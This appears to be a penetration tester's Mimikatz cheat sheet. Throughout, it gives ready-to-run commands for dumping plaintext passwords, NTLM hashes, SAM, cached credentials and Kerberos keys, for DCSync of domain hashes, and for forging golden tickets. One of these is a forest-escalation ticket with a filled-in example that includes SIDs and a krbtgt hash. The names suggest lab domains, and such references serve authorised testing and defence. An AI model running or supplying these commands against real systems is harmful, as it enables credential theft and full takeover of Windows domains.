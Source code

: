 # Mimikatz

Use Mimikatz to dump local and domain plaintext credentials and hashes.

---

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

---

## Mimikatz One-Liner to Dump Local Hashes & Secrets

```powershell
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

---

## Dump Domain Hashes (dcsync method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:$DOMAIN_NAME /all # HYDRA.test
```

```powershell
mimikatz: lsadump::dcsync /domain:marvel.test /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm $DOMAIN_USER # HYDRA\\grant.ward
```

---

## Dump Domain Hashes (lsa method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::lsa /patch
```

---

## Create and Use a golden ticket

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$DOMAIN_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID /ptt
```

![Creating a golden ticket using Mimikatz](golden-ticket-kerberos-golden.png)

Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```

---

## Trustpocalypse - Create and Use a Golden Ticket with `ExtraSids` Set to the SID of `Enterprise Admins` of the Forest Root Domain

You'll need the [[golden-ticket#Required pieces of information|same items as normal for creating a golden ticket]]. In addition, you'll also need the SID of the `Enterprise Admins` group of the forest root domain.

```powershell
mimikatz: kerberos::golden /user:$USER_TO_IMPERSONATE /domain:$CHILD_DOMAIN_NAME /sid:$CHILD_DOMAIN_SID /krbtgt:$CHILD_DOMAIN_KRBTGT_NTLM /sids:$SID_OF_FOREST_ROOT_DOMAIN_ENTERPRISE_ADMINS_GROUP /id:$ID_OF_USER_TO_IMPERSONATE /ptt
```

- `$USER_TO_IMPERSONATE`: you probably want this to just be `Administrator`
- `$ID_OF_USER_TO_IMPERSONATE`: you probably want this just to be `500` (the ID of the domain administrator)

Example:

```powershell
kerberos::golden /user:Administrator /domain:dev.ADMIN.TGIHF.COM /sid:S-1-5-21-1416445593-394318334-2645530166 /krbtgt:9404def404bc198fd9830a3483869e78 /sids:S-1-5-21-1216317506-3509444512-4230741538-519 /id:500 /ptt
```

Test with `dir \\dc02.dev.ADMIN.TGIHF.COM\C$` or `dir \\dc03.ADMIN.TGIHF.COM\C$`.

---

## Dump Plaintext Passwords and Hashes of Logged On Users

```powershell
sekurlsa::logonpasswords
```

---

## Dump Kerberos Encryption Keys

```powershell
sekurlsa::ekeys
```

---

## Dump SAM

```powershell
lsadump::sam
```

---

## Dump Domain Cached Credentials (DCC)

```powershell
lsadump::cache
```
